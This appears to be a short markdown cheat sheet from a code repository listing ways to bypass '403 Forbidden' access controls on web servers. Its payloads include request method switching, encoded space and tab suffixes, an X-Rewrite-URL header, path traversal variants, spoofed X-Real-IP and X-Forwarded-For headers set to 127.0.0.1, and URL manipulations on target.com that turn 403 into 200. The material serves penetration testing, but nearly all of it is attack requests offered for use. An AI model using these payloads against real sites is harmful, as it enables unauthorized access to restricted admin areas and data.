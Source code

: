 ### 1. Change request method.
```
POST -> GET
```
```
GET -> POST
```

### 2. Use space symbol.
```
GET /admin%20
```
```
GET /admin%09
```

### 3. X-Rewrite-URL header
```
GET /index.html
X-Rewrite-URL: /admin
```
### 4. Use Path Traversal
```
GET /%2e/admin
```
```
GET /admin/..;/
```
			
### 5. X-Real-IP/X-Forwrded-For
```
GET /admin
X-Real-IP: 127.0.0.1
```
```
GET /admin
X-Forwarded-For: 127.0.0.1
```

### 6. Other Techniques
target.com/secret -> ```403 Forbidden```

target.com/secret/ -> ```200 Ok```

target.com//secret// -> ```200 Ok```

target.com/./secret/./ -> ```200 Ok```

target.com/%2e/secret -> ```200 Ok```

target.com/secret/* -> ```200 Ok```

target.com/. -> ```200 Ok```
